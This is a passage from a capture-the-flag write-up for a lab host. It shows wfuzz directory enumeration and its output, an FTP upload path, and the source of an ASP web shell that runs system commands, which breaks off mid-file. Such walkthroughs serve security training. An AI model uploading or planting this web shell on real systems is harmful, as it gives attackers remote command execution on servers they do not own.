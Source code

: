 To be honest, I could have skipped this step. I did it to show some love to `nmap`.

### Directory/File Enumeration

Finally, we can continue with our enumeration journey. Let's start with `wfuzz`.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 http://10.10.10.116/FUZZ                                                     
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.116/FUZZ
Total requests: 4593

==================================================================
ID      Response   Lines      Word         Chars          Payload
==================================================================

004186:  C=301      1 L       10 W          150 Ch        "upload"

Total time: 233.0655
Processed Requests: 4593
Filtered Requests: 4592
Requests/sec.: 19.70690
```

Hmm. Where can I upload files? FTP of course.


{% include image.html image_alt="7ba7f207.png" image_src="/6cd0c453-7dba-47a7-af54-16f65dccfab9/7ba7f207.png" %}


Here's proof that the file was successfully uploaded.


{% include image.html image_alt="97ad894b.png" image_src="/6cd0c453-7dba-47a7-af54-16f65dccfab9/97ad894b.png" %}


Armed with this knowledge, we can upload a simple ASP file that executes commands remotely.

<div class="filename"><span>hello.asp</span></div>

```html
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<html>
<body>
<form action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</form>
<pre>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
</pre>
<br>
```
